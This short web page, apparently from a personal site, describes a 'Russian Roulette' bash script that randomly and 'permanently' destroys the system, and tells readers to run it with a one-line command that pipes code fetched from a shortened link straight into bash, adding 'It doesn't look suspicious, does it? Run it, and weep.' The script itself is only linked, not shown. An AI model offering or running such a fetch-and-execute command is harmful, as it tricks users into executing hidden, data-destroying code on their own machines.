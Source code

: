 # Russian Roulette in Bash
## The code
Simple, and easy. Unstoppable once it has started. You can find the code [here.](https://github.com/ThyCowLord/ThyCowLord.github.io/blob/master/code/bashyoheadin.txt).

## How it works
It has seven barrels. If the random number is four, the system is __permanently destroyed.__

## Execution
To run it type: 
> bash <(curl https://git.io/vArE3).

It doesn't look suspicious, does it?
Run it, and weep.
